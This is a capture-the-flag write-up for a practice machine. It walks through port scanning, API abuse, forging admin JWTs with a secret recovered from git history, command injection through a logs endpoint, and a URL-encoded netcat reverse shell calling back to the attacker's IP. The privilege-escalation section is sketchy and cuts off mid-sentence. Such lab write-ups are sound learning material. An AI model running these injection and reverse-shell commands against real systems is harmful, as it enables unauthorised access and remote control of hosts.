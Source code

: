 # User

## Web Enumeration

Nmap
```shell
# Nmap 7.92 scan initiated Fri Mar 25 13:06:23 2022 as: nmap -sV -sC -oA nmap-results 10.10.11.120
Nmap scan report for 10.10.11.120 (10.10.11.120)
Host is up (0.073s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open     http    Node.js (Express middleware)
|_http-title: DUMB Docs
4129/tcp filtered nuauth
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 25 13:06:42 2022 -- 1 IP address (1 host up) scanned in 18.78 seconds
```

Gobuster results with medium wordlist
```shell
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

## Website Enumeration

This is a website of some kind of an open-source API with a live demo mode, which heads to `api/priv`. There is a documentation page, that has a lot of information about how the API works.

First, in the Log In section, there is an example of a log in request with an email and a password and I try to see, if this happens to be a valid admin account.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "root@dasith.works",
"password": "Kekc8swFgD6zU"
}'
```
No luck here unfortunately. 
So I proceed to register a new user, using the information given.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/register' --data '{
"name": "testuser",
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with a succesfull response `{"user":"testuser"}`. I try to log in with these credentials to see that it really works.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with succes and response is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw`. This is the JWT token that authenticates user *"testuser"*.

Now I try to access `api/priv`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw' -i 'http://10.10.11.120/api/priv
```
and response is `{"role":{"role":"you are normal user","desc":"testuser"}}`. So I logged in as a user, but I need to find an other way to gain access as admin. I'm going to keep looking on the website for any other information, that could be helpful.

I find out that, I can download the source code, which can be really useful.

## Source Code Examination

Create JWT in log in
```js
    // create jwt 
    const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
    res.header('auth-token', token).send(token);
```

## JWT Forging

Using jwt.io and the JWT token I got with "testuser", I will try to forge a new one with `username="theadmin"` and the `TOKEN_SECRET=secret`(email doesn't really matter, since it checks only if `username="theadmin"`).
![jwtsecret](img/jwtfake.png)
Then I try to login with forged JWT token with `TOKEN_SECRET=secret`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.DTKfqkj0GUAI46OLUGTwoOnBEgbQ0PkWk9pVMUz95g4' -i 'http://10.10.11.120/api/priv'
```
But it's rejected. This means, that the token secret has been changed, before the source code was uploaded.

Look in `.git` and find file `logs/HEAD` with commit history and a commit with description `commit: removed .env for security reasons`
Go back to that commit with:
![gitdiff](img/gitdiff.png)


Now I can forge the JWT token, this time with the real `TOKEN_SECRET`.
![jwtlegit](img/jwtlegit.png)

and login with it
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/priv'
```

I am now authenticated as the admin! 
 `{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

I have to find a way to make use of this, in order to get a reverse shell.

```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;whoami'
```

and response `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`

```
curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204242%20%3E%2Ftmp%2Ff'
```

I got the reverse shell and **User Flag** ✔️!!

# Privillege Escalation

`find / -type f -perm -u=s 2>/dev/null`


Find `/opt/count` and visiting `/opt` there is a .c file also.
![code](img/code.png)

This program, reads a path from user input, loads it in it's memory and counts how many rows it has if it's a file or how many

Now I search the flag in the `strings CoreDump`.

![coredump](img/coredump.png)

**Root Flag** ✔️!!!





